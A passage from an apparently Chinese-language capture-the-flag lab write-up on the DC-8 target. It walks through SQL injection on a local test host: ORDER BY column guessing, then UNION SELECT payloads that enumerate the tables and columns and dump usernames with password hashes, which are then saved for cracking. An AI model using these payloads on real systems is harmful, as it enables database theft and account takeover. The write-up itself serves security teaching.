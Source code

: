 ![13](https://havocykp.github.io/assets/images/img_blog10/13.png)

③ 猜测列数

order by 猜测当前表的数据列数，当猜测列数为1的时候显示正常

![14](https://havocykp.github.io/assets/images/img_blog10/14.png)

列数为2的时候显示不正常，所以断定当前表的列数为1列

![15](https://havocykp.github.io/assets/images/img_blog10/15.png)

④ union 联合注入

1. 查看数据回显位

![16](https://havocykp.github.io/assets/images/img_blog10/16.png)

2. 查看当前数据库

<http://192.168.2.237/?nid=0> union select database()

![17](https://havocykp.github.io/assets/images/img_blog10/17.png)

3. 查看d7db数据库下的所有表，可以看到一个users表

<http://192.168.2.237/?nid=0> union select group_concat(table_name) from information_schema.tables where table_schema= 'd7db '

![18](https://havocykp.github.io/assets/images/img_blog10/18.png)

4. 查看users表下的字段，发现name和pss字段

<http://192.168.2.237/?nid=0> union select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'

![19](https://havocykp.github.io/assets/images/img_blog10/19.png)

5. 查看信息得到两组账号/密码

<http://192.168.2.237/?nid=0> union select group_concat(name,':',pass) from d7db.users

admin:$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z

john:$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF

![20](https://havocykp.github.io/assets/images/img_blog10/20.png)

⑥ hash解密

将用户名和密码密文保存到 dc8-hash.txt中

vim dc8-hash.txt

admin:$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z

john:$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF

